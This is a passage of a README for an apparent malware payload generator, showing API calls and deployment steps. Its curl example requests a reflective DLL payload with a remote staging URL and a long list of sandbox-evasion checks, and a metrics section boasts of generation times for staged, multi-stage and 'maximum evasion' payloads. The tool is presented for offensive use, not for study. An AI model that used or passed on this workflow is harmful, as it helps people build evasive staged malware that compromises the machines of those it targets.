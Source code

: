 ### Reflective DLL with Maximum Evasion
```bash
curl -X POST http://localhost:8080/api/generate \
  -H "Content-Type: application/json" \
  -H "x-api-key: your_api_key" \
  -d '{
    "type": "reflective",
    "staging_urls": ["http://staging:9090/dll/payload"],
    "evasion_techniques": ["environment_checks", "timing_checks", "process_checks", "network_checks", "file_system_checks", "registry_checks", "memory_checks", "user_interaction", "geolocation_checks", "hardware_checks"],
    "complexity_level": 10
  }'
```

## 🔧 Deployment Commands

### Docker Deployment (Recommended)
```bash
# Copy environment template
cp .env.example .env
# Edit .env with your settings

# Deploy full stack
./deploy.sh docker-full

# Or basic deployment
./deploy.sh docker
```

### Standalone Deployment
```bash
./deploy.sh standalone

# Development mode
./deploy.sh dev
```

### Testing
```bash
# Run comprehensive tests
./deploy.sh test --verbose

# PowerShell test suite
pwsh -File test_enhanced_api.ps1 -Verbose
```

## 📈 Performance Metrics

### Payload Generation
- **Staged Payloads**: ~0.2-0.5 seconds generation time
- **Multi-Stage**: ~0.3-0.7 seconds with multiple components
- **Reflective**: ~0.4-0.8 seconds with DLL loading
- **Maximum Evasion**: ~0.5-1.2 seconds with all techniques
